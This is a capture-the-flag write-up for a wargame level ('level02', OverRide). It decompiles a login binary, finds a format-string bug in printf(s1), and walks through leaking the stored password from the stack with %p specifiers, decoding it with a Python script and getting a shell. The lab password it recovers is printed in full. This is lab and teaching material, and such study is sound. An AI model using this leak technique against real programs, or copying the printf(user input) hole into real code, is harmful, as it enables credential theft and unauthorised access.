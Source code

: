 # Solution

Here is the decompile C code from the binary:

```c
int main(void)
{
    char    s2[96];
    char    ptr[48];
    char    s1[96];
    int     result;
    FILE    *stream;
    
    memset(s1, 0, sizeof(s1));
    memset(ptr, 0, 41);
    memset(s2, 0, sizeof(s2));
    stream = NULL;
    stream = fopen("/home/users/level03/.pass", "r");
    if (!stream)
    {
        fwrite("ERROR: failed to open password file\n", 1, 0x24, stderr);
        exit(1);
    }
    result = fread(ptr, 1, 0x29, stream);
    if (result != 41)
    {
        fwrite("ERROR: failed to read password file\n", 1, 0x24, stderr);
        exit(1);
    }
    fclose(stream);
    puts("===== [ Secure Access System v1.0 ] =====");
    puts("/***************************************\\");
    puts("| You must login to access this system. |");
    puts("\\**************************************/");
    printf("--[ Username: ");
    fgets(s1, 100, stdin);
    s1[strcspn(s1, "\n")] = 0;
    printf("--[ Password: ");
    fgets(s2, 100, stdin);
    s2[strcspn(s2, "\n")] = 0;
    puts("*****************************************");
    if ( strncmp(ptr, s2, 0x29uLL) )
    {
        printf(s1);
        puts(" does not have access!");
        exit(1);
    }
    printf("Greetings, %s!\n", s1);
    system("/bin/sh");
    return 0;
}
```

Here the exploit is a printf leak from the stack.

Basically if the strcmp of `s2` and `ptr` which store the current password failed this will allow us to use the `printf` call,
with only s1 as args which allow us to leverage a `printf format attack`.

This is pretty simple to exploit here since ptr have already the stored password we need to leak the stack and from that we will get the password.

Im just showing the end result but you will have to input as username %x until you find data that could look like password.

```sh
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password: 
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```

here we use `%22$p` to avoid having to much information printed, we use `p` and not `x` because `p` will show us the full content, 
while `x` will show only the 4 byte of content.

From that we will gather all the data and put the data inside a python script that will give use the proper formatted password.
(because the output that you see above is the little endian result).

Here is the python script:

```python
#!/usr/bin/env python

first_chunck = [0x75, 0x6e, 0x50, 0x52, 0x34, 0x37, 0x68, 0x48]
second_chunck = [0x45, 0x41, 0x4a, 0x35, 0x61, 0x73, 0x39, 0x51]
third_chunck = [0x37, 0x7a, 0x71, 0x43, 0x57, 0x4e, 0x67, 0x58]
fourth_chunck = [0x35, 0x4a, 0x35, 0x68, 0x6e, 0x47, 0x58, 0x73]
fifth_chunck = [0x48, 0x33, 0x67, 0x50, 0x66, 0x4b, 0x39, 0x4d]

result = bytearray(first_chunck[::-1])
result += bytearray(second_chunck[::-1])
result += bytearray(third_chunck[::-1])
result += bytearray(fourth_chunck[::-1])
result += bytearray(fifth_chunck[::-1])
print(result.decode())
# Output: "Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H"
```

Now let's try to input the password we should get a shell if the password is correct.

```sh
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: toto
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, toto!
$ whoami
level03
$ cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
